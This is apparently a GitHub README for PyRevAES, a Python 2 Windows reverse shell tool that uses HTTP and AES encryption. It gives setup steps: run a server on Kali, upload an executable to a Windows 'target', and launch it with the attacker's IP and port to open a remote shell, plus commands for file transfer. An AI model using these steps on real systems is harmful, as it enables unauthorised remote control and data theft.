<h1 align="center">
	<img width="400" src="pyrevaes.png" alt="PyRevAES">
</h1>

# PyRevAES

A Windows Reverse Shell using HTTP methods with 256-bit AES encryption written in python version 2

If I get some time (and encouragement), I will convert this to a python3 project and probably use some oop.

## Usage:
1. Run server_shell_http.py from kali
2. Upload client_shell_http.exe to Windows target
3. Run the following command on the target for a reverse shell without proxy:
```
C:\client_shell_http.exe <kali_ip> 80
```
4. Run the following command for a reverse shell with proxy:
```
C:\client_shell_http.exe <kali_ip> <kali_port> <proxy_address> <Proxy_port>
```

## EXTRAS:
```client_shell_http.py``` - If you want to create your own executable or run directly from python,  code is available.

```TCP_proxy_online.py``` - TCP proxy from ```https://stackoverflow.com/questions/32468270/tcp-proxy-using-python``` Purely the work of voorloop. You might need to modfy lines 16 and 94 for the forwarded reverseshell/port and the proxy port, respectively.

```get-pip.py``` To install pip for python2 (after deprecation). Reference: https://bootstrap.pypa.io/

## COMMANDS:
```upload [filename]```

```download [filename]```     => Need to rename file after download.

```winreg```                 => displays help message


## Install
1. git clone <repo>
2. ```pip2 install -r requirements.txt```
3. ```python2 server_shell_http.py```
4. choose port ```80``` - Other ports may work, but it works best with port ```80```

## Issues
If there are issues with pip2 installation (due to deprecation) refer to this ```https://bootstrap.pypa.io/``` to get pip working again for python2. 

If there are issues with pycrypto, install the following:
```sudo apt install build-essential libssl-dev libffi-dev python-dev```

If still having issues, try running everything using sudo.


## Notes:
- Logo made with courtesy of https://www.freelogodesign.org/
- Most of this code is from here ```https://www.trustedsec.com/2012/03/building-a-native-http-shell-with-aes-in-python/``` and about twenty other different sources.  I apologise if I haven't referenced anyone's code here.
